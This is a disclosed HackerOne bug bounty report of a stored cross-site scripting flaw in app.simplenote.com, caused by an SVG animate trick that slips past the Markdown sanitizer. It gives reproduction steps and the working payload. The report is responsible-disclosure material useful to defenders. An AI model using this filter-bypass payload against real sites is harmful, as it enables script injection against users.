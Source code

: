 # [app.simplenote.com] Stored XSS via Markdown SVG filter bypass

## Report Details
- **Report ID**: 271007
- **URL**: https://hackerone.com/reports/271007
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-09-22T20:53:22.156Z
- **Disclosed**: 2017-11-12T16:19:51.168Z

## Reporter
- **Username**: ysx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Hi,

A carefully crafted injection used against the Markdown input parser can be leveraged to store and execute arbitrary JavaScript in the `app.simplenote.com` context.

## Proof of concept
Before proceeding to reproduce this vulnerability, please log in to `app.simplenote.com` and create a new note with the "Markdown Formatted" option enabled.

1. Please paste the below payload into the "Edit" window, then select the "triple dots" icon > **Publish**

2. Next, please access the provided Simplenote URL, and select the black rectangle to execute the XSS payload.

Please note that I deleted the note and account used to test the aforementioned PoC immediately after confirming successful exploitation.

### Markdown parser payload

```
<div id="137"><svg>
<a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
<circle r="400"></circle>
<animate attributeName="xlink:href" begin="0" from="javascript:alert(document.domain)" to="&" />
</a>//["'`-->]]>]</div>
```

### Supporting evidence

{F223223}

## Verified conditions

At the time of testing, I have successfully confirmed exploitability in the following environment:

* Firefox 55.0.3 stable (32-bit) on Ubuntu 16.04.3 LTS

Thanks,

Yasin


## Attachments
- Simplenote_Stored_XSS.png
